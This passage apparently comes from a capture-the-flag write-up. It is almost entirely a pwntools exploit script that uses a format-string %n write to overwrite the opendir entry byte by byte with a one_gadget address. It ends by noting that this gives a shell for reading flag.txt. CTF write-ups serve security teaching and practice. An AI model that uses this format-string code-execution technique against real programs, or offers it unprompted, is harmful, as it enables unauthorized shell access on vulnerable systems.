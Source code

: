 ```python

opendir = pieleak+0x00004060

gadgetbyte1 = one_gadget >> 56 & 0xff
gadgetbyte2 = one_gadget >> 48 & 0xff
gadgetbyte3 = one_gadget >> 40 & 0xff
gadgetbyte4 = one_gadget >> 32 & 0xff
gadgetbyte5 = one_gadget >> 24 & 0xff
gadgetbyte6 = one_gadget >> 16 & 0xff
gadgetbyte7 = one_gadget >> 8 & 0xff
gadgetbyte8 = one_gadget & 0xff

sleep(1)

print(1)
fmtpart = b'%'+str(gadgetbyte8).encode()+b'c'+b'%8$n'
padding = b'A'*(16-len(fmtpart))
addr = p64(opendir)
io.sendline(fmtpart + padding + addr)
print(2)
sleep(1)
fmtpart = b'%'+str(gadgetbyte7).encode()+b'c'+b'%8$n'
padding = b'A'*(16-len(fmtpart))
addr = p64(opendir+1)
io.sendline(fmtpart + padding + addr)
print(3)
sleep(1)
fmtpart = b'%'+str(gadgetbyte6).encode()+b'c'+b'%8$n'
padding = b'A'*(16-len(fmtpart))    
addr = p64(opendir+2)
io.sendline(fmtpart + padding + addr)

print(4)
sleep(1)
fmtpart = b'%'+str(gadgetbyte5).encode()+b'c'+b'%8$n'
padding = b'A'*(16-len(fmtpart))
addr = p64(opendir+3)
io.sendline(fmtpart + padding + addr)

print(5)
sleep(1)
fmtpart = b'%'+str(gadgetbyte4).encode()+b'c'+b'%8$n'
padding = b'A'*(16-len(fmtpart))
addr = p64(opendir+4)
io.sendline(fmtpart + padding + addr)

print(6)
sleep(1)
fmtpart = b'%'+str(gadgetbyte3).encode()+b'c'+b'%8$n'
padding = b'A'*(16-len(fmtpart))
addr = p64(opendir+5)
io.sendline(fmtpart + padding + addr)

print(7)
sleep(1)
io.sendline(b'ls')
# io.clean()

io.interactive()
```
This gives us a shell and makes us able to print flag.txt:
